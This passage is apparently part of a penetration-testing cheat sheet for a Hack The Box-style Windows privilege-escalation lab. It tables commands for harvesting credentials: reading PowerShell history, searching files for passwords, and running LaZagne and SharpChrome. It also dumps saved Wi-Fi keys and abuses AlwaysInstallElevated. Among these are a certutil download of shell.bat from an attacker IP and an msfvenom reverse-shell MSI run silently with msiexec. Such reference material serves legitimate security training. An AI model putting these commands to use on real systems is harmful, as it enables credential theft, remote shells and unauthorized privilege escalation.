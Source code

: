 | `(Get-PSReadLineOption).HistorySavePath`                                                                                  | Confirm PowerShell history save path               |
| `gc (Get-PSReadLineOption).HistorySavePath`                                                                               | Reading PowerShell history file                    |
| `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`                                                                 | Decrypting PowerShell credentials                  |
| `cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt`                                         | Searching file contents for a string               |
| `findstr /si password *.xml *.ini *.txt *.config`                                                                         | Searching file contents for a string               |
| `findstr /spin "password" *.*`                                                                                            | Searching file contents for a string               |
| `select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password`                                              | Search file contents with PowerShell               |
| `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`                                        | Search for file extensions                         |
| `where /R C:\ *.config`                                                                                                   | Search for file extensions                         |
| `Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`                                  | Search for file extensions using PowerShell        |
| `cmdkey /list`                                                                                                            | List saved credentials                             |
| `.\SharpChrome.exe logins /unprotect`                                                                                     | Retrieve saved Chrome credentials                  |
| `.\lazagne.exe -h`                                                                                                        | View LaZagne help menu                             |
| `.\lazagne.exe all`                                                                                                       | Run all LaZagne modules                            |
| `Invoke-SessionGopher -Target WINLPE-SRV01`                                                                               | Running SessionGopher                              |
| `netsh wlan show profile`                                                                                                 | View saved wireless networks                       |
| `netsh wlan show profile ilfreight_corp key=clear`                                                                        | Retrieve saved wireless passwords                  |

## Other Commands

| **Command**                                                                                                 | **Description**                                    |
| ----------------------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`                               | Transfer file with certutil                        |
| `certutil -encode file1 encodedfile`                                                                        | Encode file with certutil                          |
| `certutil -decode encodedfile file2`                                                                        | Decode file with certutil                          |
| `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`                                 | Query for always install elevated registry key (1) |
| `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`                                              | Query for always install elevated registry key (2) |
| `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`                        | Generate a malicious MSI package                   |
| `msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`                                     | Executing an MSI package from command line         |
| `schtasks /query /fo LIST /v`                                                                               | Enumerate scheduled tasks                          |
| `Get-ScheduledTask \| select TaskName,State`                                                                | Enumerate scheduled tasks with PowerShell          |
| `.\accesschk64.exe /accepteula -s -d C:\Scripts\`                                                           | Check permissions on a directory                   |
| `Get-LocalUser`                                                                                             | Check local user description field                 |
| `Get-WmiObject -Class Win32_OperatingSystem \| select Description`                                          | Enumerate computer description field               |
| `guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd`                                                           | Mount VMDK on Linux                                |
| `guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`                                               | Mount VHD/VHDX on Linux                            |
| `sudo python2.7 windows-exploit-suggester.py --update`                                                      | Update Windows Exploit Suggester database          |